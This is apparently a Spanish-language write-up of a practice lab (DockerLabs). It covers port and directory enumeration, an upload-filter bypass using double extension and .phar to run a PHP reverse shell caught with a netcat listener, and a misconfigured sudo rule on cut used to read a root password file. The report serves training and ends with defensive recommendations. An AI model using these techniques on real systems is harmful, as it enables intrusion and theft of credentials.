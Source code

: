 # 🛡️ Informe de Pentesting - DockerLabs

---

## 📄 Información General

* **Máquina**: DockerLabs
* **Objetivo**: Obtener acceso root
* **Descripción**: Análisis completo de una máquina vulnerable desplegada con Docker, enfocándose en la enumeración, explotación y escalada de privilegios.

---

## ⚙️ 1. Despliegue de la Máquina

Primero, descargamos y extraemos la máquina vulnerable:

```bash
unzip dockerlabs.zip
```

Después, la desplegamos con el script automático:

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```
![Despliegue](DockerLabs/Imágenes/Logo.png)

---

## 📶 2. Verificación de Conectividad

Hacemos ping a la IP de la máquina para asegurarnos de que está activa:

```bash
ping -c1 172.17.0.2
```

![Ping](DockerLabs/Imàgenes/Capturas.png)

---

## 🔍 3. Enumeración de Puertos con Nmap

Escaneamos todos los puertos para encontrar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Nmap puertos](DockerLabs/Imàgenes/Capturas_1.png)

Extraemos los puertos encontrados usando un script personalizado:

```bash
extractPorts allPorts.txt
```

Luego realizamos un escaneo más profundo:

```bash
nmap -sC -sV -p 80 172.17.0.2 -oN target.txt
```

![Nmap detalle](DockerLabs/Imàgenes/Capturas_2.png)

---

## 🌐 4. Análisis Web

Accedemos al sitio en `http://172.17.0.2/`:

![Página principal](DockerLabs/Imàgenes/Capturas_4.png)

### 🔦 Fuzzing con Wfuzz

Buscamos directorios ocultos con:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://172.17.0.2/FUZZ
```

Se descubre `/uploads`.

![wfuzz](DockerLabs/Imàgenes/Capturas_6.png)

Ingresamos en:

```url
http://172.17.0.2/uploads/
```

![Uploads](DockerLabs/Imàgenes/Capturas_5.png)

### 🔎 Descubrimiento adicional con Gobuster

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](DockerLabs/Imàgenes/Capturas_7.png)

Rutas identificadas:

* `/index.php`
  ![index](DockerLabs/Imàgenes/Capturas_9.png)
* `/uploads/`
  ![uploads](DockerLabs/Imàgenes/Capturas_8.png)
* `/upload.php`
  ![upload](DockerLabs/Imàgenes/Capturas_10.png)
* `/machine.php`
  ![machine](DockerLabs/Imàgenes/Capturas_11.png)

---

## 🐚 5. Carga de Web Shell (Reverse Shell)

El formulario en `/machine.php` indica que solo se aceptan archivos `.zip`. Usamos la técnica de **doble extensión**.

### 💾 Código PHP de reverse shell:

Obtenido desde:
[https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

Cambiamos la IP y el puerto y luego renombramos el archivo:

```bash
mv php-reverse-shell.php php-reverse-shell.php.zip
```

![Archivo cargado](DockerLabs/Imàgenes/Capturas_13.png)

El archivo se carga correctamente:

![Éxito](DockerLabs/Imàgenes/Capturas_14.png)
![Verificado en uploads](DockerLabs/Imàgenes/Capturas_15.png)

Pero al intentar ejecutarlo, no se activó la shell. Probamos cambiando la extensión a `.phar`:

```bash
mv php-reverse-shell.php.zip php-reverse-shell.phar
```

![Cambio a .phar](DockerLabs/Imàgenes/Capturas_19.png)

---

### 🎧 Escucha con Netcat

Antes de activar el archivo malicioso, iniciamos Netcat:

```bash
sudo nc -lvnp 443
```

![Netcat](DockerLabs/Imàgenes/Capturas_18.png)

Luego accedemos al archivo desde el navegador. ¡La shell se activa!

![Shell activa](DockerLabs/Imàgenes/Capturas_21.png)

---

## 🔐 6. Escalada de Privilegios

### 🧪 Revisión de permisos con `sudo -l`

```bash
sudo -l
```

Resultado:

```text
User www-data may run the following commands on dockerlabs:
    (ALL) NOPASSWD: /usr/bin/cut
```

Esto significa que el usuario `www-data` puede ejecutar el comando `cut` como root, sin necesidad de contraseña.

---

### 🔎 Exploración y descubrimiento de pistas

Buscamos archivos interesantes:

```bash
cd /opt/
cat nota.txt
```

Contenido:

> Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.

---

### ✂️ Explotación del permiso con `cut`

Aunque no podemos leer directamente el archivo, usamos `cut` con sudo para hacerlo como root:

```bash
sudo /usr/bin/cut -d "" -f1 /root/clave.txt
```

![Clave root](DockerLabs/Imàgenes/Capturas_22.png)

**¿Por qué funciona?**

* `cut` espera un delimitador, pero aquí se pasó uno vacío (`""`).
* Esto puede fallar en sistemas más estrictos, pero en este caso devolvió toda la línea del archivo (probablemente porque no había delimitadores).
* Así conseguimos leer **la clave root** sin permisos de lectura directos.

---

### 🔓 Acceso Root

Con la clave obtenida, accedemos como root:

```bash
su root
```

🎉 ¡Acceso total a la máquina!

---

## ✅ Conclusiones

| Fase               | Resultado                                                 |
| ------------------ | --------------------------------------------------------- |
| Escaneo de puertos | Descubierto puerto 80 (HTTP)                              |
| Análisis web       | Directorios `/uploads`, `/upload.php`, `/machine.php`     |
| Explotación        | Web shell vía `.phar` + reverse shell con Netcat          |
| Escalada           | Acceso a archivo root mediante `sudo cut` mal configurado |

---

### ⚠️ Recomendaciones de Seguridad

* **Nunca** otorgar permisos `sudo` sin contraseña a comandos como `cut`, `less`, `vim`, etc.
* Validar extensiones de archivo de forma segura (no solo por el nombre).
* Configurar entornos aislados y sin privilegios para aplicaciones web.
